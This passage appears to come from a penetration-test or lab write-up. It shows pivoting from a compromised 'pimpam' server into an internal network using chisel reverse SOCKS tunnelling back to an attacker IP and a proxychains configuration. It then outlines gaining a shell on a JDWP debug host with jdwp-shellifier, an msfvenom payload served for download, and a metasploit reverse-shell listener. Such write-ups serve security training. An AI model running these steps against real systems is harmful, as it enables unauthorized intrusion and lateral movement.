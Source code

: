 At this point, though, the access to the internal network is only possible through the reverse shell established on the `pimpam` server. To access the internal network from the attacker machine as well, the tool to use is [chisel](https://github.com/jpillora/chisel). Fortunately, it is already present on the server, so there's no need to upload it.

First, set up the chisel server on the attacker machine so that it listens for an incoming connection from the client.

```
$ chisel server --reverse --socks5 -p 80
```

Then, the client is run on the victim server with the attacker machine's IP as the parameter.

```
$ chisel client 10.200.0.13 R:socks
```

The two commands above establish a SOCKS proxy from the attacker's machine on port 1080 allowing to access any IP and port as if the connections were coming from the `pimpam` server.

The final step for this to work is adding the following line in `/etc/proxychains.conf`.

```
socks5  127.0.0.1 1080
```

Now, it is possible to access the debug port 5005 of the `jgames-debug` host from the attacker machine using `proxychains`. As mentioned above, the `jdwp-shellifier` script can be used to execute shell commands through that port.

To gain shell access to the server, `metasploit` can be used once again. First, `msfvenom` to generate the payload binary, as shown below.

![](img/20241112155505.png)

Then, a simple Python HTTP server allows the victim server to download the prepared payload.

![](img/20241112155513.png)

And as the final prerequisite before running the exploit, a reverse shell listener needs to be set up in metasploit with the respective options matching the attacker machine's IP and port as well as the payload type.
